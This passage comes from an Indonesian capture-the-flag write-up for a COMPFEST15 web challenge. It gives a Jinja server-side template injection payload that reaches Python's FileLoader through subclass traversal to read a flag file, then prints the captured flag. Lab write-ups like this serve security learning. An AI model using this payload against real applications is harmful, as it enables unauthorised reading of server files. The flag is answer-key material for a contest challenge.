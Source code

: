Sekarang saatnya buat payload. Berdasarkan info dari repo tersebut, berikut _payload_-nya:
```
{%print(dict.__mro__[1].__subclasses__()[121](".",".").get_data('c4n_y0u_fUlly_s4y_my_N4m3.txt'))%}
```
Kelas ```FileLoader``` harus diinstantiasi dulu dengan argumen asal, tapi biar sesuai tema ku pake ```"."``` yang menggambarkan direktori tempat file server berada, lalu memanggil fungsi ```get_data``` dengan parameter nama file yang akan kita buka. Sekarang mari kita coba.  
![flag](Vacation%20Gallery%202-7.png)

Alhamdulillah dapat _flag_-nya:
```
COMPFEST15{s4m3_pr0bl3m_d1ff3r3nt_s0lut10n}
```

### Reflections
Permulaan yang cukup menantang untuk ```Server Side Template Injection``` di ```Jinja```. Selain itu, lumayan menambah ilmu tentang builtin function di python dan ```object``` base class di **Python**.
  

---
[Back to home](../Readme.md)
